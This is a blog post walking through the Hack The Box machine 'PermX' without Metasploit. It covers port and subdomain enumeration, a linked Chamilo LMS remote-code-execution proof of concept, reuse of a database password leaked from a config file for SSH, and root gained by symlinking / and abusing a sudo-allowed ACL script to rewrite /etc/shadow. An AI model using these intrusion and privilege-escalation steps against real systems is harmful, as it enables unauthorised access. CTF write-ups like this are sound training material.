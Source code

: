 ```yaml
---
draft: false
title: "Hack the Box #3 - PermX w/o Metasploit"
date: 2024-07-30
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_3_permx.png
  alt: hack_the_box_3_permx.png
---
```

I've been messing with retired boxes on Hack the box and thought i would finally try my hand on one of the active ones!

---
## Enumeration

So as per lets start with an nmap scan.
```bash
# Nmap 7.94SVN scan initiated Sat Jul 27 09:05:17 2024 as: nmap -sV -p- -o nmap.scan 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.062s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Jul 27 09:06:05 2024 -- 1 IP address (1 host up) scanned in 48.48 seconds

```

In doing so we find ports 22, 80 open. Both versions seem secure so lets have a look at the website.

> sudo vim /etc/hosts

Adding [http://permx.htb/](http://permx.htb/) Looks like some elearning site. Inspecting the page source shows there is an underlying page but none of the urls load anything of interest.

```bash
/.htaccess           [33m (Status: 403)[0m [Size: 274]
/.htpasswd           [33m (Status: 403)[0m [Size: 274]
/.hta                [33m (Status: 403)[0m [Size: 274]
/css                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/css/>][0m
/img                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/img/>][0m
/index.html          [32m (Status: 200)[0m [Size: 36182]
/js                  [36m (Status: 301)[0m [Size: 303][34m [--> <http://permx.htb/js/>][0m
/lib                 [36m (Status: 301)[0m [Size: 304][34m [--> <http://permx.htb/lib/>][0m
/server-status       [33m (Status: 403)[0m [Size: 274]
```

With some further subdirectory enumeration with gobuster We have some denied and an open directory but nothing of serious interest. Lets see if we have any subdomains of interest???

Weirdly is wasn’t getting much success with with the generic **ffuf** method of:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://FUZZ.permx.htb -mc 200
```

This doesn't seem right. It isn't even detecting the www root that I am connected to… After a little bit of research I found another way to make the query.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u <http://10.10.11.23> -H "Host: FUZZ.permx.htb" -mc 200
```

What is the difference you might ask? The former is sending out a request to DNS servers for what other subdomains it could connect to. Where the latter is sending requests directly to the IP Address im trying to hit…

And after running the command against the VHOST we get

**lms.permx.htb**

WHY IS IT ALWAYS DNS!!!!!!!

Lets add this bad boy to our hosts file and lets see what we got… Looks like we have a login page with the administrator mentioned at the bottom.

![LoginPage](https://i.imgur.com/7BQRrzZ.png#center)

+1 to email admin@permx.htb love you Davis Miller

---
## Exploitation 

In digging through the source to determine what version of Chamilo we are dealing with I could only determine **Chamilo 1** thinking it wouldn't get me to far without a specific version but google is a bountiful place with a simple **Chamilo 1 exploit** search we find a PoC put together by m3m0o [m3m0o/chamilo-lms-unauthenticated-rce](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) Thanks mate love you.

Downloading this and reviewing the exploit it can either check for the vulnerability, drop a webshell or a reverse shell using the exploit. Well I'm feeling vrevshelly today :D

![ReverseShell](https://i.imgur.com/GM5Qp5D.png#center)

Looks like we are **www-data** but we can still read the etc/passwd looks to be a single human user of mtz that's where our user flag will be… Lets start enumerating this box and see how we can get it.

In poking around we get this find an interesting file...
```bash
└─$ find / -type f -name "*config*" 2>/dev/null 
...
/var/www/chamilo/app/config/configuration.php
...

└─$ cat "/var/www/chamilo/app/config/configuration.php" | grep "db_user\\|db_pass"
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

Great we have been able to acquire the database username and password.

Trying to login to the Chamilo portal the user doesn't work. Good. Lets try it with the user **mtz**.

```bash
└─$ ssh mtz@10.10.11.23
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ cat user.txt
==============USER_FLAG_STRING==============
```

I’m in and we got the flag… Now to escalate to root!

---
## Privilege Escalation 

Lets start by enumerating what processes can be run as superuser.
```bash
mtz@permx:~$ find / -perm -u=s -type f 2>/dev/null
...
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

There are some interesting ones at the bottom of this lookup. Digging into polkit, we are running version 0.105-33 and with a cursery search on exploit_db we find this bad boy [exploit-db](https://www.exploit-db.com/exploits/50011)

After running this a couple times however we have no success. The script is unable to create a user. Lets see what this user can run...

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

We can run **[acl.sh](http://acl.sh)** as a sudo user without a password. Looking at the script is assigns permissions to a given target file but does restrict the user to only be able to run it on their home directory. We can’t edit this file but we can abuse the security check by creating a symbolic link to root.
```bash
mtz@permx:~$ ln -s / root # Create temp symbolic link
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow # GIB SHADOW FILE PERMS
mtz@permx:~$ vim /etc/shadow 
```

Here we can pull the hashed root password and crack it… or we can just overwrite it with mtz password then we can `su root` input mtz password and BAM!!!

```bash
mtz@permx:~$ su root
Password: 
root@permx:/home/mtz# cat /root/root.txt
==============ROOT_FLAG_STRING==============
```

We got the root flag baby! And this [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/613) from hack the box. My smooth brain feels satisfied. I'm going to go touch some grass now :D

